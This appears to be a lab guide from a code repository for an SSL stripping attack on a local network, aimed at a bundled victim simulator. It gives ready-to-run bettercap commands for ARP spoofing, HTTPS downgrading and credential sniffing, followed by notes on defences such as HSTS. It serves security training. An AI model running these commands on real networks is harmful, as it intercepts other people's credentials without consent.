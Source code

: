 # SSL Stripping Lab Guide

## Overview
This lab demonstrates SSL downgrade attacks using SSL stripping techniques. The goal is to intercept HTTPS traffic and capture credentials transmitted in plaintext for security research and defense training.

## Prerequisites
- Linux system with network access
- Bettercap installed
- Python 3 with requests library
- Network interface capable of packet injection
- Victim simulator (included)

## Tools Comparison

### Bettercap vs Ettercap
- **Bettercap**: Recommended - built-in SSL stripping, no custom filters needed
- **Ettercap**: Requires custom filter files, more complex setup

## Lab Setup

### 1. Install Bettercap
```bash
sudo apt install bettercap
```

### 2. Enable IP Forwarding
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
echo 0 > /proc/sys/net/ipv4/conf/all/send_redirects
```

### 3. Start SSL Stripping Attack

**Basic command (replace `eth0` with your interface):**
```bash
sudo bettercap -iface eth0 -eval "net.recon on; set arp.spoof.fullduplex true; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

**Target specific victim:**
```bash
sudo bettercap -iface eth0 -eval "set arp.spoof.fullduplex true; set arp.spoof.targets [VICTIM_IP]; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

### 4. Run Victim Simulator
In a separate terminal:
```bash
python3 victim_simulator.py
```

## Attack Components

### Bettercap Modules Used
- `arp.spoof`: ARP poisoning for MITM positioning
- `http.proxy`: HTTP proxy with SSL stripping
- `net.sniff`: Packet capture for credential extraction
- `net.recon`: Network reconnaissance

### SSL Stripping Process
1. ARP spoofing positions attacker as gateway
2. HTTPS requests intercepted and downgraded to HTTP
3. Victim receives HTTP response (appears normal)
4. Credentials transmitted in plaintext
5. Bettercap captures and logs credentials

## Expected Results

### Captured Credentials
Monitor bettercap output for POST data containing:
- `username=Employee@sinamoa.com`
- `password=Employee123!@#`
- `csrf_token=dummy_token`

### Traffic Flow
1. Victim attempts HTTPS connection to port 3000
2. Bettercap intercepts and strips SSL
3. Plaintext HTTP request sent to server
4. Credentials captured in transit

## Victim Simulator Details
- Sends login attempts every 30 seconds
- Uses realistic User-Agent headers
- Targets configurable IP address
- Simulates typical web application login flow

## Defense Considerations
This lab helps understand:
- SSL stripping attack vectors
- Importance of HSTS (HTTP Strict Transport Security)
- Certificate pinning effectiveness
- User awareness of URL schemes (HTTP vs HTTPS)

## Lab Cleanup
1. Stop bettercap with Ctrl+C
2. Stop victim simulator with Ctrl+C
3. Disable IP forwarding (optional):
   ```bash
   echo 0 > /proc/sys/net/ipv4/ip_forward
   ```

## Notes
- This setup requires no custom configuration files
- Works out of the box with standard tools
- Demonstrates practical SSL downgrade vulnerability
- Suitable for security research and training environments

## Troubleshooting
- Ensure proper network interface selection
- Verify ARP spoofing is working with `net.show`
- Check that victim and attacker are on same network segment
- Monitor bettercap logs for SSL stripping activity